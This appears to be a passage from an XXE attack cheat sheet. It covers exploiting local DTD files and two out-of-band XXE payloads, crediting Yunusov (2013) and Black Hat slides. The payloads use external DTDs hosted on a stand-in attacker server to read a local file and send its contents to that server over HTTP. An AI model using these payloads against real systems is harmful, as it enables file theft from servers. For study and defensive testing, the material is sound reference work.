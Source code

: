 Contents of _sig-app_1_0.dtd_  
  
```xml
… <!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of"> <!ELEMENT pattern (%condition;)> …
```
  

[Source](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) (also providing a list of local DTD files)

# Evolved XXE Attacks - Out-of-Band channels

Just because there is no direct feedback channel available does not imply that an XXE attack is not possible.  

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">  
<data>&send;</data>
```
  
File stored on _http://publicServer.com/parameterEntity_oob.dtd_  
  
```xml
<!ENTITY % file SYSTEM "file:///sys/power/image_size">  
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">  
%all;
```

[Source](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)

###   XXE OOB Attack - Parameter Entities (Yunusov, 2013)

Here is a variation of the previous attack using only parameter entities.  
  
```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ENTITY % remote SYSTEM "http://publicServer.com/parameterEntity_sendhttp.dtd">  
%remote;  
%send;  
]>  
<data>4</data>
```
  
File stored on _http://publicServer.com/parameterEntity_sendhttp.dtd_  
  
```xml
<!ENTITY % payload SYSTEM "file:///sys/power/image_size">  
<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'http://publicServer.com/%payload;'>">  
%param1;
```
  
[Source](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)  
  